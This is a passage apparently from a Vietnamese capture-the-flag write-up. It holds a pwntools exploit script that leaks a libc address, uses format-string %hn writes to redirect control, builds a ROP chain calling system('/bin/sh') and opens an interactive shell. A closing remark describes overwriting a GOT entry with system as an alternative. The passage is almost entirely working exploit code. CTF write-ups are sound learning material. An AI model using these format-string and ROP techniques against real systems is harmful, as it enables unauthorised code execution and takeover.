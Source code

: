 ```python
    p.sendlineafter(b">> ",b"3")
    p.sendlineafter(b">> ",payload)


p.sendlineafter(b">> ",b"1")
p.recvuntil(b"this: ")
x = p.recvline()[:-1]
libc.address = int(x,16) - libc.sym.fgets
log.critical(f"libc: {hex(libc.address)}")

addr = 0x1fe170 + libc.address
log.info(f'addr: {hex(addr)}')
pop_rdi = 0x0000000000028715 + libc.address
pop_chain = 0x0000000000028710 + libc.address # pop r13 ; pop r14 ; pop r15 ; ret
ret = 0x0000000000026a3e + libc.address

log.info(f'ropchain: {hex(pop_chain)}')
# print(hex(pop_chain))
# print(hex(pop_chain&0xffffff))
# print(hex(addr))

payload = f"%{0x1000}c%8$hn".ljust(16,'.')
payload = payload.encode() + p64(addr - 1)
vuln(payload)

payload = f"%{(pop_chain//0x100)&0xffff}c%8$hn".ljust(16,'.')
payload = payload.encode() + p64(addr +1)
input()
vuln(payload)
another_one(p64(pop_rdi) + p64(next(libc.search(b'/bin/sh'))) + p64(libc.sym.system))

p.interactive()
```


- ngoài ra còn 1 cách khác nữa , đây là plt của ```strlen``` nó sẽ nhảy đến đoạn đó để thực thi địa chỉ ```got``` , tuy nhiên ở đây mình đã input '/bin/sh' và bằng 1 cách nào đó nó nằm ở ```rdi``` luôn , nên nếu ta overwrite địa chỉ này thành system và ta sẽ có 1 shell ...

![here](/assets/images/got_libc_hehe.png)
